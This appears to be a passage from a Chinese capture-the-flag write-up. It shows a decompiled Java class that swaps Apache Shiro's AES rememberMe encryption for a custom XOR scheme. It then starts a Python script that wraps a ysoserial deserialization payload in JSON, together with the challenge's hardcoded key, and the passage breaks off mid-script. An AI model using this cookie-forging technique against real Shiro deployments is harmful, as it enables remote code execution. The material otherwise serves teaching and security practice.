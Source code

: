 WEB-INF/classes/com/collection/shiro/crypto/ShiroCipherService.class
```java
public class ShiroCipherService implements CipherService {
  public ByteSource decrypt(byte[] ciphertext, byte[] key) throws CryptoException {
    String skey = (new Sha1Hash(new String(key))).toString();
    byte[] bkey = skey.getBytes();
    byte[] data_bytes = new byte[ciphertext.length];
    for (int i = 0; i < ciphertext.length; i++) {
      data_bytes[i] = (byte)(ciphertext[i] ^ bkey[i % bkey.length]);
    }
    byte[] jsonData = new byte[ciphertext.length / 2];
    for (int i = 0; i < jsonData.length; i++) {
      jsonData[i] = (byte)(data_bytes[i * 2] ^ data_bytes[i * 2 + 1]);
    }
    JSONObject jsonObject = new JSONObject(new String(jsonData));
    String serial = (String)jsonObject.get("serialize_data");
    return ByteSource.Util.bytes(Base64.getDecoder().decode(serial));
  }
  public ByteSource encrypt(byte[] plaintext, byte[] key) throws CryptoException {
    String sign = (new Md5Hash(UUID.randomUUID().toString())).toString() + "asfda-92u134-";
    Subject subject = SecurityUtils.getSubject();
    HttpServletRequest servletRequest = WebUtils.getHttpRequest(subject);
    String user_agent = servletRequest.getHeader("User-Agent");
    String ip_address = servletRequest.getHeader("X-Forwarded-For");
    ip_address = (ip_address == null) ? servletRequest.getRemoteAddr() : ip_address;
    String data = "{\"user_is_login\":\"1\",\"sign\":\"" + sign + "\",\"ip_address\":\"" + ip_address + "\",\"user_agent\":\"" + user_agent + "\",\"serialize_data\":\"" + Base64.getEncoder().encodeToString(plaintext) + "\"}";
    byte[] data_bytes = data.getBytes();
    byte[] okey = (new Sha1Hash(new String(key))).toString().getBytes();
    byte[] mkey = (new Sha1Hash(UUID.randomUUID().toString())).toString().getBytes();
    byte[] out = new byte[2 * data_bytes.length];
    for (int i = 0; i < data_bytes.length; i++) {
      out[i * 2] = mkey[i % mkey.length];
      out[i * 2 + 1] = (byte)(mkey[i % mkey.length] ^ data_bytes[i]);
    } 
    byte[] result = new byte[out.length];
    for (int i = 0; i < out.length; i++) {
      result[i] = (byte)(out[i] ^ okey[i % okey.length]);
    }
    return ByteSource.Util.bytes(result);
  }
```

这相当于魔改了原版的 shiro, 原版的是直接用的 AES. 我们可以看到这里魔改后秘钥是读的 `com/collection/shiro/manager/remember.key`. (docker 初始自带一个 key, 所有人都用的一个, 不会自己生成).  
然后算法也从 AES 变成了出题人手写的加密算法. 然后将序列化后的对象 base64 之后放在了 json 的 `serialize_data` 里面  
我们可以写个脚本二次重写一下 ysoserial 生成的 payload
```python
from hashlib import md5
from hashlib import sha1
from base64 import b64encode
from json import dumps

payload = '/home/rmb122/repos/ysoserial/target/1.bin'
payload = open(payload, 'rb').read()
payload = b64encode(payload).decode()
data = {"user_is_login": "1", "sign": "9368b2d39093ed7164841e4050f9cdbeasfda-92u134-", "ip_address": "10.10.19.245", "user_agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36",
"serialize_data": payload}
data = dumps(data).encode()


key = "wR&_(NVG#c&9(CDhaDMZELDmxSe(mwbB"
```